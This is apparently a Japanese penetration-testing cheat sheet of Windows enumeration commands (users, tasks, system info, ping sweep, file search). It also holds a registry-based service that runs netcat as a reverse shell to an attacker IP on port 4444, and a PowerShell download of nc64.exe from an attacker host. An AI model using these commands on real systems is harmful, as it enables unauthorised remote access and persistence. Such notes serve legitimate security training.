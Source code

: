 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
```

* schtasks

```bat
    # /S: 接続先リモートシステム
    # /U: ユーザ名
    # /P: パスワード
    # /TN: タスク名
    # /SC: スケジュール(1回) 
    # /SD: 開始日
    # /ST: 開始時刻
    # /TR: 実行タスク
    schtasks /Create /S 192.168.xxx.xxx /U <user> /P <password> /TN sample /SC ONCE /SD 1900/01/01 /ST 00:00 /TR C:¥Remote¥test.bat

    # タスクの一覧表示(詳細)
    schtasks /query /fo list /v
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | fiond "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*
    または
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE

    # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe 172.31.42.71 4444 -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0
```

* サービス登録

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # 
    sc qc evilsvc
```

## PowerShell

* バージョン確認

``` powershell
    $PsVersionTable
```

* ファイル転送

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc64.exe" -OutFile "nc64.exe")
```

* 共有ドライブ

``` powershell
    powershell -Command "Get-WmiObject -class Win32_Share"
```
